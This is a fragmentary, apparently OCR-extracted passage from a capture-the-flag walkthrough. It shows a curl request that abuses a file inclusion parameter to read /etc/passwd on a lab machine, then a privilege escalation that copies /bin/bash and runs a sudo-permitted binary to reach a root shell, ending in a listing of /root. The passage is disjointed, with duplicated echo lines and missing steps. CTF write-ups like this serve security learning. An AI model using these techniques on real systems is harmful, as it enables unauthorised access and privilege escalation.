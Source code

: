 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
cd /tmp

saket\@ubuntu:/tmp\$ cp /bin/bash /tmp/challenge

cp /bin/bash /tmp/challenge

After executing undefeated_victor again the root is obtained.

saket\@ubuntu:/tmp\$ sudo /home/victor/undefeated_victor

sudo /home/victor/undefeated_victor

if you can defeat me then challenge me in front of you

root\@ubuntu:/tmp\# whoami

whoami

root

root\@ubuntu:/tmp\# cd /root

cd /root

root\@ubuntu:/root\# ls -laht

ls -laht

total 92K

\-rw------- 1 root root 8.4K Sep 1 05:01 .bash_history

drwx------ 5 root root 4.0K Aug 31 09:08 .

\-rwxr-xr-x 1 root root 442 Aug 31 09:08 t.sh

\-rw-r--r-- 1 root root 66 Aug 31 05:42 .selected_editor

\-rw-r--r-- 1 root root 123 Aug 30 09:13 key.txt

\-rwxr-xr-x 1 root root 14K Aug 30 08:42 enc

\-rw-r--r-- 1 root root 305 Aug 30 08:42 enc.cpp

\-rw-r--r-- 1 root root 237 Aug 30 08:36 enc.txt

\-rw-r--r-- 1 root root 33 Aug 30 08:25 root.txt

\-rw------- 1 root root 137 Aug 30 05:29 .mysql_history

\-rw-r--r-- 1 root root 805 Aug 30 03:14 sql.py

drwxr-xr-x 10 root root 4.0K Aug 30 01:03 wfuzz

drwx------ 3 root root 4.0K Aug 30 01:03 .cache

drwxr-xr-x 2 root root 4.0K Aug 29 12:06 .nano

\-rw-r--r-- 1 root root 170 Aug 29 11:24 wordpress.sql

drwxr-xr-x 24 root root 4.0K Aug 29 10:57 ..

\-rw-r--r-- 1 root root 3.1K Oct 22 2015 .bashrc
```